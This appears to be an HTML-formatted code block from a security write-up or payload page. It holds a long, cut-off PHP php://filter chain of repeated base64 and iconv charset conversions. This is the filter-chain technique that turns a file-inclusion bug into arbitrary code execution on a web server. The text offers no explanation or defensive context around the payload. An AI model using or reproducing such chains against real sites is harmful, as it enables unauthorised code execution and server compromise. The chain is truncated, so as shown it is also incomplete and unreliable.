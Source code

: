 <table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM860.UTF16|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.855.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.855.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L5.UTF-32|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span>